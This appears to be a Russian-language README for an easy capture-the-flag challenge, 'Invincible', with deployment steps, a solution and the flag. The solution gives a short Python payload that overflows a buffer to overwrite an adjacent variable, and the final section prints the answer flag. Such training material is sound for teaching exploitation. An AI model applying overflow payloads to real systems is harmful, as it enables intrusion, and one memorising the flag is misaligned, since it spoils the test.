

# Invincible

### Сложность

Easy

### Информация

```
Ковбой прогуливающийся по улицам города, вдруг получает приложение на свой кибернетический имплант. Оказавшись в виртуальной среде, где предлагают проверить его кибербезопасность, он обнаруживает в ней уязвимость. Решив воспользоваться ею, ковбой получает доступ к флагу, став непобедимым героем в виртуальном мире без правил и ограничений. Адрес по которому он получил приложение nc IP 13001.
```

### Описание

Бинарное приложение в котором нужно переполнить буфер.

### Запуск

```sh
cd deploy
docker-compose up --build -d

```

### Выдать учаcтникам

содержимое папки public/ и IP:13001

### Решение

При исследования файла source в дизассемблере, можно заметить переполнение буфера.



Мы можем создать входные данные, чтобы переполнить буфер buff и перезаписать переменную buff2.

```
def int_to_bytes(number, length):
    return number.to_bytes(length, byteorder='little')

offset = 20
value = 4347715

payload = b'A' * offset + int_to_bytes(value, 4)

print(payload)
```

### Флаг

GOCTF{c0wBoy5_@re_l0ya1_7o_y0u}
